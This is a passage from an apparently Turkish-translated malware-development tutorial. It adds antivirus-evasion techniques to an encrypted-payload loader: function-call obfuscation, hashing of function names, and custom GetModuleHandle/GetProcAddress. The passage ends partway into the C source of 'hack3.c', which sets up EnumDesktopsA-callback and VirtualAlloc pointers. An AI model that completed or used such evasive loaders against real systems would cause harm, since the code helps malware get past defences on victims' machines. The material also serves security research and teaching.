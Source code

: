 ```powershell
.\hack2.exe
```

![cryptography](./images/131/2024-07-28_17-14.png){width="80%"}      

Bu versiyon da mükemmel çalıştı.     

### pratik örnek 3

Ana "kötü amaçlı yazılımımızı" güncelleyelim: fonksiyon çağrısı bulanıklığı, fonksiyon adlarını karma hale getirme, GetModuleHandle ve GetProcAddress uygulamalarını ekleyerek bazı kaçınma teknikleri ekleyelim.

Ana "kötü amaçlı yazılımımızı" güncelleyelim: bazı kaçınma teknikleri ekleyelim, örneğin [fonksiyon çağrısı obfuscation](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), [fonksiyon adlarını hashleme](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html), [GetModuleHandle](https://cocomelonc.github.io/malware/2023/04/08/malware-av-evasion-15.html) ve [GetProcAddress](https://cocomelonc.github.io/malware/2023/04/16/malware-av-evasion-16.html) uygulamalarını ekleyelim.      

Bu sürüm şu şekilde görünüyor - `hack3.c`:    

```cpp
/*
* hack3.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>
#include <winternl.h>
#include <shlwapi.h>
#include <string.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

int cmpUnicodeStr(WCHAR substr[], WCHAR mystr[]) {
  _wcslwr_s(substr, MAX_PATH);
  _wcslwr_s(mystr, MAX_PATH);

  int result = 0;
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef BOOL (CALLBACK * EnumDesktopsA_t)(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);

LPVOID (WINAPI * pva)(LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char cva[] = 
```
